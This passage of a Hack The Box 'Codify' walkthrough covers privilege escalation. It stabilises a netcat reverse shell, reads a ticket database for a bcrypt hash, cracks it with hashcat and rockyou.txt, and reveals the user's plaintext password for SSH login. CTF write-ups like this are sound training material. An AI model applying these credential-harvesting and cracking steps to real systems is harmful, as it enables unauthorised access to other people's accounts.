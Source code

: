 ```bash
stty raw -echo && fg
```

This should bring up a nice color-highlighted terminal in your Codify machine through the `netcat` listener.

## User Escalation in Codify HTB Box

By playing arounf the directories in the Codify box from our `svc` user, we find several interesting directories. One of the most promising option is the `/var/www` directory.

```bash
cd /var/www
ls
```

Let's go into `contact/` and check out the `tickets.db` file to see if we can find anything interesting.

```bash
cd contact/
cat tickets.db
```

Scroll down and you will see that there's a user called `joshua` and a password that seems to be hashed. If we can break this hash and retrieve the password then we can get the user flag.

Let's copy this hash to a file for processing.

```bash
nano hash.txt
```

```txt
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Now, run the `hashid` command from your attack box to find out the hash type. It's pre-installed on Kali.

```bash
hashid hash.txt
```

This should reveal that the hashed password uses the `Blowfish` cipher. Let's break this hash down using `hashcat`, also pre-installed on Kali.

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

Give `hashcat` a few minutes and it will crack the hash for you. Once finished, run the following command to view the password.

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --show
```

We see that the password for user `joshua` is `spongebob1`. Let's try ssh-ing into the box using this credential.
